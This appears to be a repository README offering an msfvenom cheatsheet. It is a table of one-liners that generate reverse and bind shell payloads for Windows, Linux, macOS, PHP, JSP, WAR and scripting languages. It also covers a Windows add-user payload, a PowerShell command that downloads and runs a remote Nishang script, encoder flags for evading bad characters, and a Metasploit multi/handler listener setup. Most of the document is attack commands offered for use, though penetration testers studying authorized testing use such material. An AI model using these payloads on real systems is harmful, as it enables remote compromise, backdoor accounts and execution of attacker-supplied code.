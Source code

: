 # MSFVenom Cheatsheet
Single Page Cheatsheet for common MSF Venom One Liners  
Available in PDF, DOCX and Markdown format!


# MSFVenom Cheatsheet

| MSFVenom Payload Generation One-Liner | Description |
|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------|
|    msfvenom -l   payloads                                                                                                                                                                 |    List available payloads                                     |
|    msfvenom -p   PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT   LHOST=IP                                                                                                        |    Payload Encoding                                            |
|    msfvenom -p   linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf    shell.elf                                                                                           |    Linux Meterpreter  reverse shell x86 multi stage            |
|    msfvenom -p   linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf    shell.elf                                                                                              |    Linux Meterpreter  bind shell x86 multi stage               |
|    msfvenom -p linux/x64/shell_bind_tcp   RHOST=IP LPORT=PORT -f elf  shell.elf                                                                                                      |    Linux bind shell x64 single stage                           |
|    msfvenom -p linux/x64/shell_reverse_tcp   RHOST=IP LPORT=PORT -f elf  shell.elf                                                                                                   |    Linux reverse shell x64 single stage                        |
|    msfvenom -p   windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe    shell.exe                                                                                             |    Windows Meterpreter reverse shell                           |
|    msfvenom -p   windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe    shell.exe                                                                                               |    Windows Meterpreter bind shell                              |
|    msfvenom -p   windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe    shell.exe                                                                                                   |    Windows CMD Multi Stage                                     |
|    msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT   -f exe  shell.exe                                                                                                     |    Windows CMD Single Stage                                    |
|    msfvenom -p   windows/adduser USER=hacker PASS=password -f exe  useradd.exe                                                                                                           |    Windows add user                                            |
|    msfvenom -p   osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho    shell.macho                                                                                               |    Mac Reverse Shell                                           |
|    msfvenom -p   osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho    shell.macho                                                                                                  |    Mac Bind shell                                              |
|    msfvenom -p   cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw    shell.py                                                                                                      |    Python Shell                                                |
|    msfvenom -p   cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw    shell.sh                                                                                                        |    BASH Shell                                                  |
|    msfvenom -p   cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw    shell.pl                                                                                                        |    PERL Shell                                                  |
|    msfvenom -p   windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp    shell.asp                                                                                             |    ASP Meterpreter shell                                       |
|    msfvenom -p   java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw    shell.jsp                                                                                                  |    JSP Shell                                                   |
|    msfvenom -p   java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war    shell.war                                                                                                  |    WAR Shell                                                   |
|    msfvenom -p   php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw    shell.php   cat shell.php | pbcopy && echo '?php ' | tr -d '\n'    shell.php && pbpaste  shell.php    |    Php Meterpreter Shell                                       |
|    msfvenom -p   php/reverse_php LHOST=IP LPORT=PORT -f raw    phpreverseshell.php                                                                                                   |    Php Reverse Shell                                           |
|    msfvenom -a x86   --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object   Net.webClient).downloadString('http://IP/nishang.ps1')\""   -f python                        |    Windows Exec Nishang Powershell in   python   1342 bytes    |
|    msfvenom -p   windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT   -f c -e x86/shikata_ga_nai -b "\x04\xA0"                                                            |    Bad characters shikata_ga_nai                               |
|    msfvenom -p   windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT   -f c -e x86/fnstenv_mov -b "\x04\xA0"                                                               |    Bad characters fnstenv_mov                                  |

# Multihandler Listener
To get multiple session on a single multi/handler, you need to set the ExitOnSession option to false and run the exploit -j instead of just the exploit. For example, for meterpreter/reverse_tcp payload,  
```
msf>use exploit multi/handler  
msf>set payload windows/meterpreter/reverse_tcp  
msf>set lhost <IP>  
msf>set lport <PORT>  
msf> set ExitOnSession false  
msf>exploit -j  
```
The -j option is to keep all the connected session in the background.  


# References

https://kb.help.rapid7.com/discuss/598ab88172371b000f5a4675  
https://thor-sec.com/cheatsheet/oscp/msfvenom_cheat_sheet/  
http://security-geek.in/2016/09/07/msfvenom-cheat-sheet/  
